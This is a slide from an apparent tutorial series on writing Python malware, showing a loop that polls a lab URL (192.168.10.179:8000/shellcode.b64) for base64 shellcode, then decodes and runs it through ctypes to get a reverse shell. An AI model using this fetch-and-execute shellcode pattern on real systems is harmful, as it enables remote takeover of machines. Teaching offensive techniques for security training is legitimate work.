

Python Malwares (cont.)
Running Shellcode With ctypes (cont.)
We will modify our main function to execute only if the shellcode is obtained
def main():
    while (shellcode := get_shellcode(URL)) == None: sleep(60)
    ...
Our script obtains the shellcode from the URL http://192.168.10.179:8000/shellcode.b64, decodes it, and finally executes it.

Once we run the script, we get a reverse shell as expected.
123